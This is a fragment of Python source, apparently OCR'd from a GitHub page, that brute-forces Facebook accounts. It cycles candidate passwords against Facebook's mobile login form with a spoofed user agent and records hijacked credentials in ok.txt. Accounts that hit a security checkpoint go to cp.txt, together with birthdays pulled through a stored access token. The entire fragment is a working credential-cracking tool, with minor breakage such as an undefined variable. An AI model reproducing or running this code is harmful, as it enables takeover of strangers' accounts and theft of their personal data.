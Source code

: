 			continue

	loop += 1
	
#d.fb
def xfb(uid, pwcuk):
	try:
		ua = open("ua", "r").read()
	except IOError:
		ua = ("NokiaC3-00/5.0 (07.20) Profile/MIDP-2.1 Configuration/CLDC-1.1 Mozilla/5.0 AppleWebKit/420+ (KHTML, like Gecko) Safari/420+")
	global ua_de, ok, cp, loop, token
	sys.stdout.write(
		"\r [GK] %s/%s OK:-%s - CP:-%s "%(loop, len(id), len(ok), len(cp))
	); sys.stdout.flush()
	for pw in pwcuk:
		kwargs = {}
		pw = pw.lower()
		ses = requests.Session()
		ses.headers.update({"origin": "https://x.facebook.com", "accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7", "accept-encoding": "gzip, deflate", "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", "user-agent": ua, "Host": "x.facebook.com", "referer": "https://x.facebook.com/login/?next&ref=dbl&fl&refid=8", "cache-control": "max-age=0", "upgrade-insecure-requests": "1", "content-type": "application/x-www-form-urlencoded"})
		p = ses.get("https://x.facebook.com/login/?next&ref=dbl&refid=8").text
		b = parser(p,"html.parser")
		bl = ["lsd","jazoest","m_ts","li","try_number","unrecognized_tries","login"]
		for i in b("input"):
			try:
				if i.get("name") in bl:kwargs.update({i.get("name"):i.get("value")})
				else:continue
			except:pass
		kwargs.update({"email": uid,"pass": pw,"prefill_contact_point": "","prefill_source": "","prefill_type": "","first_prefill_source": "","first_prefill_type": "","had_cp_prefilled": "false","had_password_prefilled": "false","is_smart_lock": "false","_fb_noscript": "true"})
		qobil = ses.post("https://x.facebook.com/login/device-based/regular/login/?refsrc=https%3A%2F%2Fd.facebook.com%2F&lwv=100&refid=8",data=kwargs)
		if "c_user" in ses.cookies.get_dict().keys():
			kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ]).replace("noscript=1;", "")
			print("\r \x1b[1;32m[prem-OK] %s • %s • %s\033[0;97m"%(uid, pw, send.json()["access_token"]))
			ok.append("%s | %s"%(uid, pw))
			open("ok.txt","a").write("%s | %s\n"%(uid, pw))
			break
		elif "checkpoint" in ses.cookies.get_dict().keys():
			try:
				token = open("login.txt", "r").read()
				with requests.Session() as ses:
					ttl = ses.get("https://graph.facebook.com/%s?access_token=%s"%(uid, token)).json()["birthday"]
					month, day, year = ttl.split("/")
					month = bulan_ttl[month]
					print("\r\x1b[1;33m [prem-CP] %s • %s • %s %s %s\033[0;97m"%(uid, pw, day, month, year))
					cp.append("%s | %s"%(uid, pw))
					open("cp.txt","a").write("%s | %s | %s\n"%(uid, pw, ttl))
					open("checkcp.txt","a").write("%s | %s | %s\n"%(uid, pw, ttl))
					break
			except (KeyError, IOError):
				day = (" ")
				month = (" ")
				year = (" ")
			except:pass
			print("\r\x1b[1;33m [prem-CP] %s • %s\033[0;97m        "%(uid, pw))
			cp.append("%s | %s"%(uid, pw))
			open("cp.txt","a").write("%s | %s\n"%(uid, pw))
